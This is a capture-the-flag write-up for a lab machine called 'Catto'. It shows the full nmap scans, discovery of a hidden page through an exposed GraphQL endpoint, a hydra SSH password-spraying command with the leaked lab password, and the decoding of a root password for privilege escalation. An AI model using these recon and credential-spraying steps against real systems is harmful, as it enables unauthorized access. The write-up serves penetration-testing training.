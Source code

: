 # Catto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:03 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2500/tcp  filtered rtsserv
4907/tcp  filtered unknown
8080/tcp  open     http-proxy
18080/tcp open     unknown
30330/tcp open     unknown
36123/tcp open     unknown
38439/tcp open     unknown
42022/tcp open     unknown
42086/tcp filtered unknown
50400/tcp open     unknown
56339/tcp filtered unknown
```

Lots of ports open. Did a detailed scan as well:

```
$ sudo nmap -p 8080,18080,30330,36123,38439,42022,50400 -sC -sV --min-rate 3000 192.168.183.139
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:05 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Identity by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
18080/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
30330/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
36123/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
38439/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
42022/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc2151f2c62aadd6ca0704de705ffa13 (RSA)
|   256 05e490d2002b9d14e39f4468d28ebcdc (ECDSA)
|_  256 ca804973f0c805aebd2b42371d13e071 (ED25519)
50400/tcp open  http    Node.js Express framework
|_http-title: Error
|_http-cors: HEAD GET POST PUT DELETE PATCH
```

### Web Enum --> GraphQL&#x20;

Port 8080 shows a portfolio page:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

It was rather static, so I moved to port 30330. This page had some book reviews:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

This page looked more dynamic, so I ran a directory scan with `feroxbuster`, which found nothing of interest. Since we couldn't find anything with wordlists, I took a look through the local files:

There were a few interesting folders:

<figure><img src="../../../.gitbook/assets/image (7) (1) (4).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the folders. On the 'Using Typescript' page, there was a link to documentation:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.gatsbyjs.com/docs/how-to/custom-configuration/typescript/" %}

On the documentation page, there was mention of GraphQL being used, and sure enough `/__graphql` was a valid directory on the website as per the documentation:

<figure><img src="../../../.gitbook/assets/image (11) (2) (9).png" alt=""><figcaption></figcaption></figure>

The left had some queries already valid, so I checked those out. Using the `allSitePage` reveals all directories, including a hidden one:

<figure><img src="../../../.gitbook/assets/image (18) (11) (1).png" alt=""><figcaption></figcaption></figure>

Visiting it reveals a password:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

This was a password to a Minecraft server. We didn't have a user, but the Minecraft page had some that we could try:

{% code overflow="wrap" %}
```
Minecraft: The Island by Max Brooks, #1 New York Times bestselling author of World War Z, is the first official Minecraft novel. In the tradition of iconic stories like Robinson Crusoe and Treasure Island, Minecraft: The Island will tell the story of a new hero stranded in the world of Minecraft, who must survive the harsh, unfamiliar environment and unravel the secrets of the island.

We loved this book so much that created a server. Already invited and added keralis, xisuma, zombiecleo, mumbojumbo, and waiting for a reply on the entire hermicraft clan. There is a limit on the server, but at least sabel, yvette, zahara, sybilla, marcus, tabbatha and tabby are already online and building.

Good luck everybody!
```
{% endcode %}

We can gather all the usernames into one wordlist:

```
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
keralis
xisuma
zombiecleo
mumbojumbo
```

I used `hydra` to brute force the creds:

```
$ hydra -L users -p WallAskCharacter305 192.168.183.139 ssh -s 42022
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-12 15:20:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking ssh://192.168.183.139:42022/
[42022][ssh] host: 192.168.183.139   login: marcus   password: WallAskCharacter305
```

We can then `ssh` in as `marcus`:

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### .bash --> Base64key Root Creds

There was a weird folder `.bash` within the user's home directory:

```
[marcus@catto ~]$ ls -la
total 20
drwx------  5 marcus marcus 167 Nov 25  2020 .
drwxr-xr-x. 3 root   root    20 Nov 25  2020 ..
-rw-r--r--  1 root   root    29 Nov 25  2020 .bash
-rw-------  1 marcus marcus   0 Apr 14  2021 .bash_history
-rw-r--r--  1 marcus marcus  18 Nov  8  2019 .bash_logout
-rw-r--r--  1 marcus marcus 141 Nov  8  2019 .bash_profile
-rw-r--r--  1 marcus marcus 312 Nov  8  2019 .bashrc
drwx------  4 marcus marcus  39 Nov 25  2020 .config
drwxr-xr-x  6 marcus marcus 328 Nov 25  2020 gatsby-blog-starter
-rw-------  1 marcus marcus  33 Jul 12 06:59 local.txt
drwxrwxr-x  4 marcus marcus  69 Nov 25  2020 .npm

[marcus@catto ~]$ cat .bash
F2jJDWaNin8pdk93RLzkdOTr60==
```

This string looked like `base64` but it wasn't. I looked at other binaries with `base` as part of their name:

```
[marcus@catto ~]$ base
base32     base64     base64key  basename
```

`base64key` required a private key to decrypt, so I just tried the user's password and it worked:

```
[marcus@catto ~]$ base64key
Usage: ./a.out message key (0:encrypt|1:decrypt)
./a.out "Hello world" MYPRIVATEKEY 0
./a.out ttz9JqxZHBClNtu= MYPRIVATEKEY 1
[marcus@catto ~]$ base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
SortMentionLeast269
```

We can then `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (24) (3) (4).png" alt=""><figcaption></figcaption></figure>
